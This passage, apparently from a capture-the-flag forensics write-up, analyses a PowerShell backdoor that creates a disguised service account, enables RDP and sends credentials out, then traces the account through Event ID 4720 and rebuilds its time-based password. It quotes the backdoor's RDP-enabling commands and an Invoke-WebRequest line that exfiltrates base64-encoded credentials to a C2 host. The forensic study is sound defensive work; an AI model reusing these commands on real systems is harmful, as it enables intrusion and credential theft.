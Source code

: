 - **Enable RDP**
```powershell
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

- **Exfiltrate credentials**
```powershell
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

This sophisticated backdoor script creates legitimate-looking service accounts, grants administrative privileges, enables RDP access, and exfiltrates credentials to the attacker's C2 server.

### Created Local Account
Filtering Security logs for Event ID 4720 (User Account Created) revealed creation of the **svc_netupd** account.
![creation_of_a_local_acc](/images/TheEnduringEcho/image1.png)

The attacker chose "svc_netupd" (service network update) from their predefined list, designed to blend in with legitimate Windows service accounts.

### Command & Control Domain
From the PowerShell script analysis, the exfiltration URL was:
```powershell
Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=[BASE64_ENCODED_CREDENTIALS]"
```

The domain name references Napoleon's famous "Black Pearl" ship, suggesting a pirate-themed operation. The attacker used Base64 encoding to obfuscate stolen credentials during exfiltration.

### Generated Password
The script we found earlier on generates passwords using this pattern:
```powershell
$timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
$password = "Watson_$timestamp"
```

By examining the account creation timestamp in Event ID `4720` and converting it to the appropriate timezone (UTC-7), the password becomes: **Watson_20250824160509**.

Time-based password generation provides uniqueness while maintaining a predictable pattern for the attacker to reconstruct if needed. When investigating digital forensics, timestamps can be tricky because they might be stored in different timezones than when the actual event occurred.

- **Get-Date** gets the LOCAL system time (whatever timezone the computer is set to)
- This becomes part of the password immediately

**The Windows Event Log:**
- Event ID `4720` (account creation) gets logged
- Windows logs might store timestamps in UTC (Universal Coordinated Time)
- But the password was generated using local time
